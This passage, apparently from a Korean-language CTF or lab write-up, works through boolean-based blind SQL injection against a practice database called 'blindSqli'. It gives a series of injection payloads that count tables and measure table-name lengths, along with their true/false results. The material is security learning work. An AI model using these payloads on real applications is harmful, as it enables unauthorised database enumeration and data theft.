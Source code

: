 ## 3. TABLE
### 3.1. 개수 확인
* `COUNT(expression)`: select문의 결과 row 개수를 반환한다.

---

1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 5) #**
-> O  
1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 3) #**
-> X  
1. **normaltic' and ((select count(table_name) from information_schema.tables where table_schema = 'blindSqli') < 4) #**
-> O  
-> 3개  

### 3.2. 이름 글자수 확인
#### 3.2.1. 1번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 5) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 7) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) < 8) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 0, 1))) = 9) #**
-> O  
-> 😭 아... 9개...  
-> 🤔 혹시 flagTable일까?  

#### 3.2.2. 2번째 table
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 10) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 5) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 7) #**
-> O  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) < 6) #**
-> X  
1. **normaltic' and ((char_length((select table_name from information_schema.tables where table_schema = 'blindSqli' limit 1, 1))) = 6) #**
-> O  
-> 😶 6개  
-> 🤔 얘는 member?  
